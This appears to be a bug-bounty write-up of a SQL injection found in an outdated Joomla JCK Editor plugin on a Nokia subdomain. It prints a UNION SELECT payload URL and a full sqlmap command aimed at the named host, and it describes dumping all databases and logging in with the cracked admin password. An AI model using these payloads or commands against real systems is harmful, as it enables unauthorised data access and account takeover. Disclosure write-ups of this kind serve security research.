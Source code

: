 ```yaml
---
title: "SQL Injection on Nokia subdomain"
date: 2019-11-04T17:55:28+08:00
description: "this blog is about SQL Injection on nokia subdomain"
tags: ["bugbounty","security","webpentesting"]
type: post
weight: 25
showTableOfContents: true
---
```


Hello :wave:, I'll share with you how I found sqli on Nokia that makes me able to login into the admin page
you will not see something new here like new techniques or something, just simple steps

after doing subdomain enumeration I found a subdomain that's working with Joomla, after that I ran joomscan to get the version of the cms and plugins to see if there's any outdated version to exploit it, and joomscan gives me an old plugin called `JCK Editor` with version `6.4.4`
and after searching with this version on exploit-DB i found SQLI injection in this version [CVE-2018-17254](https://www.exploit-db.com/exploits/45423)

```
Test = [HOST]/[PATH]/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=%22%20UNION%20SELECT%20NULL,NULL,@@version,NULL,NULL,NULL,NULL,NULL--%20aa
```

![sql_nokia](https://1.bp.blogspot.com/-LgYxMfeJKhs/Xscwx2tKONI/AAAAAAAAEMs/HJ5I5jgXFv8ExESVK3bm0Mk2hpQWbDiagCK4BGAsYHg/nokiasql.png)

as you can see, we can get the version of the database :mag:

this time for my fav weapon (SQLMAP)


```bash
$ sqlmap -u 'https://gdclive.nokia.com/plugins/editors/jckeditor/plugins/jtreelink/dialogs/links.php?extension=menu&view=menu&parent=' --level=5 --risk=3 --random-agent --technique=U -p parent --batch --current-DB --current-user
```



you can see the current user and the name of the database :)

After dumping all databases using the --all option and unencrypt the password of the admin account let's login in admin panel

![nokia_pwn](https://1.bp.blogspot.com/-87ctqF3EmDM/XscxFpvVAhI/AAAAAAAAENE/Cgi-Kfnjxco0cND_FONrVmsOWySdiu_SQCK4BGAsYHg/cp.jpg)


see ya :v:
